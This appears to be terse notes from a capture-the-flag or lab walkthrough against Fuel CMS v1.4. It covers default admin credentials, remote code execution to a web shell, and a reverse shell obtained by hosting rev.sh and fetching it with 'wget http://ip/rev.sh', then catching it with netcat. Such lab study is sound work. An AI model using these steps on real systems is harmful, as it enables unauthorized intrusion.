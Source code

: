 nmap
80: Fuel CMS v1.4

got to dashboard at: ip/fuel as admin:admin -> rabit hole

got Remote Code Execution -> reverse shell

first we have web shell using exploit

searching for bash reverse shell : http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

create a bash file: rev.sh, paste the found bash rev shell in

make a local http server to store rev.sh

in webshell download rev.sh: wget http://ip/rev.sh

chmod +x

bash rev.sh

run netcat at local machine -> reverse shell

from a simple shell to fully shell: https://forum.hackthebox.eu/discussion/1713/su-must-be-run-from-a-terminal





